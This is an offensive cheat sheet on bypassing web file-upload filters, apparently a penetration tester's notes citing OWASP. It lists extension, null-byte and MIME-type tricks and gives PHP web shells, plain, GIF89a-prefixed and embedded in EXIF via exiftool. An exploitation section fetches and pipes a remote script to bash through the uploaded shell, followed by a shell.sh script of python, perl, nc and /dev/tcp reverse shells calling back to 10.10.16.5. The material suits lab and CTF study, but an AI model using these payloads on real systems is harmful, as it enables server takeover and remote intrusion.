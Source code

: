 # File upload bypass
According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections.
- Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
- Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
- Changing letters to capital form file.aSp or file.PHp3
- Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
- Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
- Upload a file with 2 extensions—> file.php.jpg
- Use of null character—> file.asp%00.jpg
- Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
- Combination of the above
## Bypassing Blacklists
Blacklisting is a type of protection where certain strings of data, in many cases, specific extensions, are explicitly prohibited from being sent to the web app server.
| Type       | Extention                                                       |
|------------|-----------------------------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, .php6, .pht, .pHp, .Php, .phP |
| asp        | asp, .aspx                                                      |
| perl       | .pl, .pm, .cgi, .lib                                            |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf                              |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                                         |

Create **shell.pHp**
```php
<?php system($_GET['c']); ?>
```
## Bypassing Whitelists
Using a reverse shell with a photo extension
```console
payload.php.jpg
```
Also using a *null character* injection we can bypass whitelist filters to make characters get ignored when the file is saved, injecting this between a forbidden extension and an allowed extension can lead to a bypass:
```console
payload.php%00.jpg OR payload.php\x00.jpg
```
Usually, if an whitelist accepts only images, it may also accept gif files too. Adding GIF89a; to the very top of your shell may help you bypass the restriction and let you execute the shell.
```console
GIF89a; <?php system($_GET['cmd']); ?>
```
## MIME Type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.
Normal php MIME type:
```console
Content-type: application/x-php
```
Replace with:
```console
Content-type: image/jpeg
```
## Exif Data, ExifTool (PHP getimagesize())
For file uploads which validate image size using php **getimagesize()**, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```console
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
## Exploitation
```url
http://10.10.10.185/images/uploads/3.php.png?cmd=wget -O - http://10.10.16.5:1234/shell.sh | bash
```
 *don't forget to use burp to encode "wget -O - http://10.10.16.5:1234/shell.sh | bash"*
```console
http://10.10.10.185/images/uploads/3.php.png?cmd=%77%67%65%74%20%2d%4f%20%2d%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%35%3a%31%32%33%34%2f%73%68%65%6c%6c%2e%73%68%20%7c%20%62%61%73%68
```
Create file *shell.sh*
```console
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.5",5555)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi
if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.16.5";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi
if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 5555 >/tmp/f
        exit;
fi
if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.16.5/5555 0>&1
        exit;
fi
```
 *You can create a shell.sh file and do the same as above, or you can also manually try **reverse shell commands** one by one.*
